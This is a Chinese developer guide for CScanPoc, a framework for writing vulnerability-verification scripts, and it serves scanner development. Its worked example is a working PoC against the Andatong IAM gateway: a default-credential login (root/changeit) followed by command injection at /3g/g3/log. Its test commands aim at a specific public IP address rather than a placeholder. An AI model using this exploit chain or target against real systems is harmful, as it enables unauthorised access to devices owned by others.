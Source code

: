 # CScanPoc

CScan Poc 开发文档。

## 接口概述

接口集中在 `CScanPoc.lib.api` 中定义。

* `ABVuln` : 漏洞抽象类，定义漏洞相关字段，具体的漏洞应该继承该类
* `ABPoc` : 漏洞验证扫描抽象类，定义 POC 的接口，具体的 POC 继承它，实现相关接口，使用 `output` 输出执行、报告数据。一般来说一个`ABPoc`（扫描程序）实现对一个`ABVuln`（漏洞）的验证；一个 POC 也可以关联、实现多个漏洞的扫描。

## 使用说明

### 开发环境

依赖使用 [pipenv](https://github.com/pypa/pipenv) 管理，具体安装参见[pipenv#installation](https://github.com/pypa/pipenv#installation)。PyCharm 中设定 pipenv 可见[这里](https://stackoverflow.com/questions/46251411/how-do-i-properly-setup-pipenv-in-pycharm)。

pipenv 安装好之后，进入项目根目录（含有 Pipfile 文件的目录），执行`pipenv install --skip-lock`，然后执行`pipenv install '-e .' --dev --skip-lock` 安装 CScanPoc 到本地环境。执行`pipenv shell`在当前虚拟环境中启动 shell。

这时，你可以执行 `python CScanPoc/template.py -u http://www.targetsite.com` 执行测试代码。

### 漏洞编写

下面以 [http://vul.hu0g4.com/index.php/2017/11/21/5.html](http://vul.hu0g4.com/index.php/2017/11/21/5.html) 中的使用弱口令登陆后，存在远程命令执行为例，进行编写这个漏洞的 POC。

首先导入相关接口：

```python
# coding: utf-8

from CScanPoc.thirdparty import requests
from CScanPoc import ABPoc, ABVuln, VulnLevel, VulnType
```

然后定义漏洞信息，它继承自 `ABVuln`：

```python
class Vuln(ABVuln):
    vuln_id = '' # 平台漏洞编号，留空
    name = '安达通网关3g/g3/log命中执行漏洞' # 漏洞名称
    level = VulnLevel.SEVERITY # 漏洞危害级别
    type = VulnType.RCE # 漏洞类型
    disclosure_date = '2017-08-22'  # 漏洞公布时间
    desc = '''
        安达通网关系统存在默认口令，用户名root 密码changeit。
        可通过该账户登录系统,在'3g/g3/log'页面存在命令执行漏洞，
        可直接执行系统命令,来获取系统权限。
    ''' # 漏洞描述
    ref = 'http://vul.hu0g4.com/index.php/2017/11/21/5.html' # 漏洞来源
    cnvd_id = '' # cnvd漏洞编号
    product = 'IAM网关控制台'  # 漏洞应用名称
    product_version = 'x.6.660'  # 漏洞应用版本
```

下面开始书写该漏洞的 poc 代码，继承自 `ABPoc`，定义作者和该 poc 的编写时间：

```python
class Poc(ABPoc):
    author = 'CScan'  # POC编写者
    create_date = '2018-3-24' #POC创建时间

    def __init__(self):
        super(Poc, self).__init__(Vuln())

    def verify(self):
        <<验证代码>>

    def exploit(self):
        super(Poc, self).exploit()
```

注意到其中 `__init__` 中的代码，它说明了该 poc 扫描的漏洞是上面定义的 `Vuln` 漏洞。

下面以验证部分代码为例介绍一下 `ABPoc` 为我们提供的接口。`<<验证代码>>` 部分如下，注意阅读其中注释部分：

```python
post_data = {'username': 'root', 'password': 'changeit'}
code_exec = {'line': '1|echo \'vuln\''}

try:
    # self.vuln: 当前扫描的漏洞
    # self.target: 扫描目标
    path = '{url}/home/login'.format(url=self.target)
    s = requests.Session()
    # self.output.info: 执行日志、流程信息的打印
    self.output.info('使用用户信息 {up} 访问 {path}'.format(path=path, up=post_data))
    response = s.post(path, data=post_data)

    if response.content == '1':
        # self.output.warn: 扫描特定漏洞发现的疑似漏洞信息打印
        self.output.warn(self.vuln, '发现弱口令 {up}'.format(up=post_data))

        path = self.target + '/3g/g3/log'
        self.output.info('发送 payload={0} 到 {1}'.format(code_exec, path))
        result = s.post(path, data=code_exec)

        if 'vuln' in result.content:
            # self.output.report: 扫描到的漏洞信息的打印
            self.output.report(
                self.vuln,
                "目标 {url} 存在 /3g/g3/log 任意命令执行漏洞".format(url=self.target))
except Exception, e:
    self.output.info('执行异常{}'.format(e))
```

方便用于调试，添加 `main` 行：

```python
if __name__ == '__main__':
    # run 会解析命令行参数 -u 到 target 中
    Poc().run()
```

此时一个漏洞的 POC 就书写完毕，完整代码在 `CScanPoc/pocs/andatong_exec.py` 中，可以执行测试：

```python
python CScanPoc/pocs/andatong_exec.py -u http://221.224.120.187:8080
```

### 漏洞编写-一个 POC 验证多个漏洞

还是以前面那个漏洞为例，实际上从上面的漏洞描述可以看出这实际包含两个漏洞。

1.  默认口令： 用户名 root 密码 changeit
2.  命令执行： 登陆后 '3g/g3/log' 页面存在命令执行漏洞，可直接执行系统命令，获取系统权限。

因此我们可以定义两个漏洞：

```python
class AdtDefaultAuthInfoVuln(ABVuln):
    vuln_id = '' # 平台漏洞编号，留空
    name = '安达通网关默认口令' # 漏洞名称
    level = VulnLevel.SEVERITY # 漏洞危害级别
    type = VulnType.MISCONFIGURATION # 漏洞类型
    disclosure_date = '2017-08-22'  # 漏洞公布时间
    desc = '''安达通网关系统存在默认口令，用户名root 密码changeit。''' # 漏洞描述
    ref = 'http://vul.hu0g4.com/index.php/2017/11/21/5.html' # 漏洞来源
    cnvd_id = '' # cnvd漏洞编号
    product = 'IAM网关控制台'  # 漏洞应用名称
    product_version = 'x.6.660'  # 漏洞应用版本

class AdtRCEVuln(ABVuln):
    vuln_id = '' # 平台漏洞编号，留空
    name = '安达通网关命令执行' # 漏洞名称
    level = VulnLevel.SEVERITY # 漏洞危害级别
    type = VulnType.MISCONFIGURATION # 漏洞类型
    disclosure_date = '2017-08-22'  # 漏洞公布时间
    desc = '''
        安达通网关系统登陆后在 '3g/g3/log'' 存在命令执行漏洞，
        可执行系统命令获取系统权限。
    ''' # 漏洞描述
    ref = 'http://vul.hu0g4.com/index.php/2017/11/21/5.html' # 漏洞来源
    cnvd_id = '' # cnvd漏洞编号
    product = 'IAM网关控制台'  # 漏洞应用名称
    product_version = 'x.6.660'  # 漏洞应用版本
```

对应 poc 可以这样写。

```python
class Poc(ABPoc):
    author = 'CScan'  # POC编写者
    create_date = '2018-3-24' #POC创建时间

    def __init__(self):
        super(Poc, self).__init__({
            'auth': AdtDefaultAuthInfoVuln(),
            'rce': AdtRCEVuln()
        })

    def verify(self):
        post_data = {'username': 'root', 'password': 'changeit'}
        code_exec = {'line': '1|echo \'vuln\''}

        try:
            # self.vuln: 当前扫描的漏洞
            # self.target: 扫描目标
            path = '{url}/home/login'.format(url=self.target)
            s = requests.Session()
            # self.output.info: 执行日志、流程信息的打印
            self.output.info('使用用户信息 {up} 访问 {path}'.format(path=path, up=post_data))
            response = s.post(path, data=post_data)

            if response.content == '1':
                # self.output.warn: 扫描特定漏洞发现的疑似漏洞信息打印
                self.output.warn(self.vuln['auth'], '发现弱口令 {up}'.format(up=post_data))

                path = self.target + '/3g/g3/log'
                self.output.info('发送 payload={0} 到 {1}'.format(code_exec, path))
                result = s.post(path, data=code_exec)

                if 'vuln' in result.content:
                    # self.output.report: 扫描到的漏洞信息的打印
                    self.output.report(
                        self.vuln['rce'],
                        "目标 {url} 存在 /3g/g3/log 任意命令执行漏洞".format(url=self.target))
        except Exception, e:
            self.output.info('执行异常{}'.format(e))

    def exploit(self):
        super(Poc, self).exploit()
```

这段示例代码放在 `CScanPoc/pocs/andatong_exec_1.py`，同样，你可以执行测试：

```python
python CScanPoc/pocs/andatong_exec_1.py -u http://221.224.120.187:8080
```

### Docker 支持

编译 CScanPoc 基础镜像，进入项目根目录，执行 `docker build -t cscanpoc .`。

新建 poc 镜像，例如 `andatong_exec.py`，

1.  新建目录，如 `andatong`
2.  将 `andatong_exec.py` 拷入该目录
3.  在目录中新建 `Dockerfile` 文件，添加内容：

    ```Dockerfile
    FROM cscanpoc

    COPY andatong_exec.py /app/main.py

    ENTRYPOINT [ "pipenv",  "run", "python", "main.py" ]
    ```

4.  在目录中执行 `docker build -t andatong_exec .` 生成名为`andatong_exec` 的镜像
5.  测试执行： `docker run --rm andatong_exec -u http://221.224.120.187:8080`
